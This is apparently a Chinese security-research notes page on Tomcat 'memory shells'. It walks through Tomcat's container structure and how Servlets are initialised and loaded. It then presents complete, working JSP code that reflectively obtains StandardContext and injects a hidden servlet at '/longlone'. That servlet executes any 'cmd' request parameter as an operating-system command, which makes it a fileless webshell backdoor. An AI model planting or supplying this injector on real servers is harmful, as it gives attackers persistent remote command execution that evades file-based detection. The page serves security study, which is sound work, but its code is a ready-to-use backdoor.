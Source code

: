 ```yaml
---
created: '22/02/16'
title: Tomcat-Servlet型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Servlet型内存马

## 参考文章
- https://blog.csdn.net/angry_program/article/details/118492214
- https://www.jianshu.com/p/ed74f6e1cbdb

## Tomcat与Servlet
要想了解如何动态注册Servlet，我们需要对tomcat有一个更好的认识:
> Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，它早期的名称为catalina，后来由Apache、Sun 和其他一些公司及个人共同开发而成，并更名为Tomcat。Tomcat 是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选，因为Tomcat 技术先进、性能稳定，成为目前比较流行的Web 应用服务器。Tomcat是应用（java）服务器，它只是一个servlet容器，是Apache的扩展，但它是独立运行的。


Tomcat由四大容器组成，分别是Engine、Host、Context、Wrapper。这四个组件是负责关系，存在包含关系。只包含一个引擎（Engine）：
> Engine（引擎）：表示可运行的Catalina的servlet引擎实例，并且包含了servlet容器的核心功能。在一个服务中只能有一个引擎。同时，作为一个真正的容器，Engine元素之下可以包含一个或多个虚拟主机。它主要功能是将传入请求委托给适当的虚拟主机处理。如果根据名称没有找到可处理的虚拟主机，那么将根据默认的Host来判断该由哪个虚拟主机处理。
> 
> Host （虚拟主机）：作用就是运行多个应用，它负责安装和展开这些应用，并且标识这个应用以便能够区分它们。它的子容器通常是 Context。一个虚拟主机下都可以部署一个或者多个Web App，每个Web App对应于一个Context，当Host获得一个请求时，将把该请求匹配到某个Context上，然后把该请求交给该Context来处理。主机组件类似于Apache中的虚拟主机，但在Tomcat中只支持基于FQDN(完全合格的主机名)的“虚拟主机”。Host主要用来解析web.xml
> 
> Context（上下文）：代表 Servlet 的 Context，它具备了 Servlet 运行的基本环境，它表示Web应用程序本身。Context 最重要的功能就是管理它里面的 Servlet 实例，一个Context代表一个Web应用，一个Web应用由一个或者多个Servlet实例组成。
> 
> Wrapper（包装器）：代表一个 Servlet，它负责管理一个 Servlet，包括的 Servlet 的装载、初始化、执行以及资源回收。Wrapper 是最底层的容器，它没有子容器了，所以调用它的 addChild 将会报错。 

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217164552.png)

其中webapps文件夹即是我们的Host，webapps中的文件夹(如examples/ROOT)代表一个Context，每个Context内包含Wrapper，Wrapper 则负责管理容器内的 Servlet。

实际上，在Tomcat7之后的版本，StandardContext中提供了动态注册Servlet的方法，但是并未实现:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217164912.png)

所以我们需要自己去实现动态添加Servlet的功能，在此之前我们需要了解Servlet的生命周期(主要关注初始化和装载)。

## Servlet初始化流程分析
在`org.apache.catalina.core.StandardWrapper#setServletClass()`处下断点调试，回溯到上一层的`ContextConfig.configureConetxt()`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217165809.png)
在这里我们可以很清楚地看到Wrapper的初始化流程，首先调用创建了wrapper，然后调用set方法配置wrapper相关的属性，我们可以参考web.xml中需要配置的属性来推测wrapper的关键属性(即图中红框)，需要留意的一个特殊属性是load-on-startup属性，它是一个启动优先级，后续再分析:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217170042.png)
接着继续配置wrapper的servletClass:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217170428.png)
配置完成之后会将wrapper放入StandardContext的child里:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217170635.png)
接着会遍历web.xml中servlet-mapping的servlet-name和对应的url-pattern，调用`StandardContext.addServletMappingDecoded()`添加servlet对应的映射:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217170953.png)

总结一下，Servlet的初始化一共有几个步骤:
1. 通过 context.createWapper() 创建 Wapper 对象
2. 设置 Servlet 的 LoadOnStartUp 的值(后续分析为什么动态注册Servlet需要设置该属性)
3. 设置 Servlet 的 Name
4. 设置 Servlet 对应的 Class
5. 将 Servlet 添加到 context 的 children 中
6. 将 url 路径和 servlet 类做映射

## Servlet装载流程分析
在` org.apache.catalina.core.StandardWapper#loadServlet()`处下断点调试，回溯到`StandardContext.startInternal()`方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217171608.png)
可以看到，是在加载完Listener和Filter之后，才装载Servlet:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217171746.png)
这里调用了`findChildren()`方法从StandardContext中拿到所有的child并传到`loadOnStartUp()`方法处理，跟到`loadOnstartup()`，可以根据代码和注释了解到这个方法会将所有load-on-startup属性大于0的wrapper加载(反之则不会)，这也是为什么上文我们提到需要关注这个属性的原因:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217172024.png)
根据搜索，我们了解到load-on-startup属性的作用:
> load-on-startup 这个元素的含义是在服务器启动的时候就加载这个servlet(实例化并调用init()方法). 这个元素中的可选内容必须为一个整数,表明了这个servlet被加载的先后顺序. 当是一个负数时或者没有指定时，则表示服务器在该servlet被调用时才加载。

可以看到当未设置load-on-startup属性是，tomcat采用的是一种懒加载的机制，只有servlet被调用时才会加载到Context中。

由于我们需要动态注册Servlet，为了使其被加载，我们必须设置load-on-startup属性。

## 内存马实现流程分析
根据上述的流程分析，我们可以模仿上述的加载机制手动注册一个servlet:
1. 找到StandardContext
2. 继承并编写一个恶意servlet
3. 通过 context.createWapper() 创建 Wapper 对象
2. 设置 Servlet 的 LoadOnStartUp 的值
3. 设置 Servlet 的 Name
4. 设置 Servlet 对应的 Class
5. 将 Servlet 添加到 context 的 children 中
6. 将 url 路径和 servlet 类做映射

以下是代码的具体实现:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.connector.Request" %>

<%
    class S implements Servlet{

        @Override
        public void init(ServletConfig config) throws ServletException {

        }

        @Override
        public ServletConfig getServletConfig() {
            return null;
        }

        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {}
            }
        }

        @Override
        public String getServletInfo() {
            return null;
        }

        @Override
        public void destroy() {

        }
    }
%>

<%
    // ServletContext servletContext =  request.getServletContext();
    // Field appctx = servletContext.getClass().getDeclaredField("context");
    // appctx.setAccessible(true);
    // ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    // Field stdctx = applicationContext.getClass().getDeclaredField("context");
    // stdctx.setAccessible(true);
    // StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 更简单的方法 获取StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();

    S servlet = new S();
    String name = servlet.getClass().getSimpleName();
    Wrapper newWrapper = standardContext.createWrapper();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
    standardContext.addChild(newWrapper);
    standardContext.addServletMappingDecoded("/longlone", name);
    
    out.println("inject success");
%>
```

## 优缺点分析
缺点:
- 这种类型的内存马需要访问具体路径才能够命令执行，日志中比较容易被发现


优点:
- 兼容性强，兼容tomcat7
